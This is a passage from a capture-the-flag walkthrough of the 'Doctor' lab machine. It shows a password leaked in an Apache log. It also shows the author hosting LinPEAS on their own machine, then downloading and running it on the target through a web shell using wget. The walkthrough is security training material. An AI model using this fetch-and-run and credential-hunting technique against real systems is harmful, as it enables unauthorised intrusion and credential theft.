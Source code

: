 

This line from the Apache logs is interesting:



    ./apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"



"Guitar123" doesn't look like an email address. It looks like a
password.

#### LinPEAS

If I hadn't checked manually,
[LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
would have also found this for me. I'll host it from a Python web server
on my host:



    root@kali:/opt/privilege-escalation-awesome-scripts-suite/linPEAS# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...



Now from my web shell, I can download it, make it executable, and run
it:



    web@doctor:/dev/shm$ wget 10.10.14.6/linpeas.sh                                                                                                                                                           
    --2020-11-01 12:23:16--  http://10.10.14.6/linpeas.sh                                                                                                                                                     Connecting to 10.10.14.6:80... connected.                                                                                                                                                                 
    HTTP request sent, awaiting response... 200 OK                                                       
    Length: 159864 (156K) [text/x-sh]                                                                                                                                                                         
    Saving to: ‘linpeas.sh’                                                                                                                                                                                   
                                                                                                                                                                                                              
    linpeas.sh          100%[===================>] 156,12K  --.-KB/s    in 0,06s                                                                                                                              
                                                                                                                                                                                                              2020-11-01 12:23:16 (2,69 MB/s) - ‘linpeas.sh’ saved [159864/159864]                                                                                                                                      
                                                                                                         
    web@doctor:/dev/shm$ chmod +x ./linpeas.sh                                                                                                                                                                web@doctor:/dev/shm$ ./linpeas.sh
    ...[snip]...



The password comes out in the section "Finding passwords inside logs":



    [+] Finding passwords inside logs (limit 70)
    Binary file /var/log/apache2/access.log.12.gz matches
    Binary file /var/log/journal/62307f5876ce4bdeb1a4be33bebfb978/system.journal matches
    Binary file /var/log/journal/62307f5876ce4bdeb1a4be33bebfb978/user-1001.journal matches
    Binary file /var/log/kern.log.2.gz matches
    Binary file /var/log/kern.log.4.gz matches
    Binary file /var/log/syslog.4.gz matches
    /var/log/apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
    /var/log/auth.log.1:Nov  1 11:42:04 doctor VGAuth[669]: vmtoolsd: Username and password successfully validated for 'root'.
    /var/log/auth.log.1:Sep 22 13:01:23 doctor sshd[1704]: Failed password for invalid user shaun from 10.10.14.2 port 40896 ssh2                      
    /var/log/auth.log.1:Sep 22 13:01:28 doctor sshd[1704]: Failed password for invalid user shaun from 10.10.14.2 port 40896 ssh2
